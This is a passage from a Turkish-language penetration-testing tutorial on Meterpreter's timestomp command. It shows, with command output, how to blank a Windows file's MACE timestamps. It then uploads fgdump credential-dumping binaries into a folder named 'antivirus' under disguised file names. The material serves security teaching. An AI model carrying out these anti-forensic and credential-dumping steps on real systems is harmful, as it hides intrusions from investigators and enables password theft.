 

Ayıca, `test.txt` dosyasının `accessed time` değerinin dosyanın bilgilerini kontrol ettiğimizden dolayı hemen yeni tarihe güncellendiğini de vurgulamak gerekir. Windows için zaman kayıtlarının ne kadar değişken ve önemli olduğunu vurgulamak yerinde olacaktır.



Şimdi farklı bir teknik kullanalım. `timestomp` sunduğu `-b` seçeneği, zaman bilgilerini boş olarak ayarlamanıza yardımcı olur. Aşağıdaki örnekte, dosyanın mevcut durumu ve `timestomp test.txt -b` komutu sonrasındaki zaman bilgilerini görebilirsiniz.


```bash
meterpreter > timestomp test.txt -v
Modified      : Tue Dec 07 08:00:00 -0500 1999
Accessed      : Sun May 03 05:16:20 -0400 2009
Created       : Tue Dec 07 08:00:00 -0500 1999
Entry Modified: Sun May 03 05:11:16 -0400 2009

meterpreter > timestomp test.txt -b
> Blanking file MACE attributes on test.txt
meterpreter > timestomp test.txt -v
Modified      : 2106-02-06 23:28:15 -0700
Accessed      : 2106-02-06 23:28:15 -0700
Created       : 2106-02-06 23:28:15 -0700
Entry Modified: 2106-02-06 23:28:15 -0700
```



Görüldüğü gibi dosyalar 2106 yılına ait zaman bilgilerini aldı. Bu görünüm Meterpreter komut satırından böyle iken bir de Windows içerisinde nasıl göründüğüne bakalım.


```bash
File Path: C:\Documents and Settings\P0WN3D\My Documents\test.txt
Created Date: 1/1/1601
Last Accessed: 5/3/2009 3:21:13 AM
Last Modified: 1/1/1601
```



Linux Meterpreter içerisinde 2106 yılı, Windows içinde 1601 oarak görülmektedir. Bu farkın sebebini <a href="http://en.wikipedia.org/wiki/1601#Notes">Ek bilgi</a> sayfasından inceleyebilirsiniz.



## Başka Bir Örnek



Şimdi, meterpreter komut satırımızdan Windows içerisine `WINNT\\antivirus\\` klasörü oluşturalım ve içerisine bir kaç dosya yükleyelim.


```bash
meterpreter > cd C:\\WINNT
meterpreter > mkdir antivirus
Creating directory: antivirus
meterpreter > cd antivirus
meterpreter > pwd
C:\WINNT\antivirus
meterpreter > upload /usr/share/windows-binaries/fgdump c:\\WINNT\\antivirus\\
> uploading  : /usr/share/windows-binaries/fgdump/servpw.exe -> c:WINNTantivirusPwDump.exe
> uploaded   : /usr/share/windows-binaries/fgdump/servpw.exe -> c:WINNTantivirusPwDump.exe
> uploading  : /usr/share/windows-binaries/fgdump/cachedump64.exe -> c:WINNTantivirusLsaExt.dll
> uploaded   : /usr/share/windows-binaries/fgdump/cachedump64.exe -> c:WINNTantivirusLsaExt.dll
> uploading  : /usr/share/windows-binaries/fgdump/pstgdump.exe -> c:WINNTantiviruspwservice.exe
> uploaded   : /usr/share/windows-binaries/fgdump/pstgdump.exe -> c:WINNTantiviruspwservice.exe
meterpreter > ls

Listing: C:\WINNT\antivirus
```
